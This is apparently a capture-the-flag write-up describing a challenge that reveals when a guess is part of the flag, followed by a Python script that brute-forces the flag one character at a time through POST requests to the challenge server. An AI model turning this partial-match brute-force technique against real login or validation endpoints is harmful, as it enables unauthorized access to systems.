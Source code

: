 ![](Challenge%20Screenshots/Coding%20-%20Step%20by%20step.png)

So... they leave us to guess a password once again. More specifically, we are supposed to just guess the flag. To help us a bit, they tell us whenever we send in *part* of the flag. This makes it just another simple brute-force challenge through trail and error. Here is the Python script I used
```py
#!/usr/bin/env python

# Imports
import requests

# All ASCII characters
chrs = [chr(i) for i in range(256)]
# All characters that returned 'getting closer'
chrs = '0134:ABCDEFGLNOSTU_abcdefghilmnorstuv{}' 

#  Trial flag
flag = "S"

i = 0
while i<len(chrs):
	# Create new flag to try
	new_flag = chrs[i] + flag 
	# Push the flag to the website
	push = requests.post("http://167.99.129.209:7788/index.php",data={'flag':new_flag})
	# Check return html
	pt = push.text[50:80]
	# Check for return
	print new_flag, pt
	if pt[0] == 'H':
		flag = new_flag
		i = 0
		print flag
	elif pt[0] == 'S':
		i += 1
	else:
		print 'Found it?:', flag
		break

# Print found result
print flag
```
